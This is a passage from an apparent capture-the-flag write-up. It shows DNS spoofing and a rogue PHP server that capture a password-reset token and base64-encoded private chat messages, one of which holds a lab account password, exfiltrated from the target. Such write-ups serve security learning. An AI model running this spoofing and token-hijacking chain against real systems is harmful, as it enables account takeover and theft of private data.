 With all preparations met we set up our dns server again and also a php webserver, serving our custom `password-reset.php`

```
$ sudo python dns_spoof.py --port 53 --udp
```

```
$ sudo php -S 0.0.0.0:80
```

Now we execute our bash script again and wait for a connection.

```
$ sudo ./forward_and_reset.sh
```

After some time we get multiple messages back on our webserver.

```
$ sudo php -S 0.0.0.0:80
[Thu Aug 12 07:50:29 2021] PHP 7.4.21 Development Server (http://0.0.0.0:80) started
[Thu Aug 12 07:50:41 2021] 10.129.68.20:26004 Accepted
[Thu Aug 12 07:50:41 2021] 10.129.68.20:26004 [200]: GET /password-reset.php?token=5af6187f0e8a76bd73019b7b6c7302579314582fc74a591d3d012ee866c5369f2cf8bef6035cbb3fe3c2b785bd6f7c0aebcfe7b1bf06de65c6f3b84fe6a2b896
[Thu Aug 12 07:50:41 2021] 10.129.68.20:26004 Closing
[Thu Aug 12 07:50:42 2021] 10.129.68.20:15767 Accepted
[Thu Aug 12 07:50:42 2021] 10.129.68.20:15767 [404]: GET /favicon.ico - No such file or directory
[Thu Aug 12 07:50:42 2021] 10.129.68.20:15767 Closing
[Thu Aug 12 07:50:42 2021] 10.129.68.20:36370 Accepted
[Thu Aug 12 07:50:42 2021] 10.129.68.20:36370 [404]: GET /newuser?b64=eyJfaWQiOjEsInVzZXJuYW1lIjoiQWRtaW4iLCJzdGF0dXMiOnsic3RhdGUiOiJvbmxpbmUifX0= - No such file or directory
[Thu Aug 12 07:50:42 2021] 10.129.68.20:36370 Closing
[Thu Aug 12 07:50:45 2021] 10.129.68.20:33050 Accepted
[Thu Aug 12 07:50:45 2021] 10.129.68.20:33050 [404]: GET /privat?b64=eyJzZW5kZXJfaWQiOjE1LCJjb250ZW50IjoiSSBoYXZlIG5ldmVyIGhlYXJkIG9mIEZhbmZlc3QsIiwicm9vbUlkIjoxNSwiX2lkIjoyNTAxfQ== - No such file or directory
[Thu Aug 12 07:50:45 2021] 10.129.68.20:33050 Closing
[Thu Aug 12 07:50:45 2021] 10.129.68.20:21063 Accepted
[Thu Aug 12 07:50:45 2021] 10.129.68.20:21063 [404]: GET /global?b64=eyJzZW5kZXJfaWQiOjEzLCJjb250ZW50IjoiSSdtIG5vdCAgYSBodWdlIGZhbiBvZiBHb29nbGUsIGJ1dCBJIHVzZSBpdCBhIGxvdCBiZWNhdXNlIEkgaGF2ZSB0by4gSSB0aGluayB0aGV5IGFyZSBhIG1vbm9wb2x5IGluIHNvbWUgc2Vuc2UuIiwicm9vbUlkIjoiZ2xvYmFsIiwiX2lkIjoyNTAyLCJ1c2VybmFtZSI6IlBlcGUifQ== - No such file or directory
[Thu Aug 12 07:50:45 2021] 10.129.68.20:21063 Closing
[Thu Aug 12 07:51:04 2021] 10.129.68.20:31586 Accepted
[Thu Aug 12 07:51:04 2021] 10.129.68.20:31586 [404]: GET /privat?b64=eyJzZW5kZXJfaWQiOjIsImNvbnRlbnQiOiJIZWxsbyBEYXZpZCwgSSd2ZSBhZGRlZCBhIHVzZXIgYWNjb3VudCBmb3IgeW91IHdpdGggdGhlIHBhc3N3b3JkIGBOV0JGY1NlM3dzNFZEaFRCYC4iLCJyb29tSWQiOjIsIl9pZCI6MjUwM30= - No such file or directory
[Thu Aug 12 07:51:04 2021] 10.129.68.20:31586 Closing
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20377 Accepted
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20377 [404]: GET /global?b64=eyJzZW5kZXJfaWQiOjExLCJjb250ZW50IjoiQXd3d3cgeWlwIHlpcCIsInJvb21JZCI6Imdsb2JhbCIsIl9pZCI6MjUwNCwidXNlcm5hbWUiOiJMdWNpbGxlIn0= - No such file or directory
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20377 Closing
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20705 Accepted
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20705 [404]: GET /privat?b64=eyJzZW5kZXJfaWQiOjEzLCJjb250ZW50IjoiSSBsb3ZlIHRvIGRhbmNlIGEgbG90LiBIb3cgYWJvdXQgeW91PyIsInJvb21JZCI6MTMsIl9pZCI6MjUwNX0= - No such file or directory
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20705 Closing
[Thu Aug 12 07:52:16 2021] 10.129.68.20:44371 Accepted
[Thu Aug 12 07:52:16 2021] 10.129.68.20:44371 [404]: GET /privat?b64=eyJzZW5kZXJfaWQiOjIsImNvbnRlbnQiOiJIZWxsbyBEYXZpZCwgSSd2ZSBhZGRlZCBhIHVzZXIgYWNjb3VudCBmb3IgeW91IHdpdGggdGhlIHBhc3N3b3JkIGBOV0JGY1NlM3dzNFZEaFRCYC4iLCJyb29tSWQiOjIsIl9pZCI6MjUwNn0= - No such file or directory
[Thu Aug 12 07:52:16 2021] 10.129.68.20:44371 Closing
[Thu Aug 12 07:52:27 2021] 10.129.68.20:19695 Accepted
```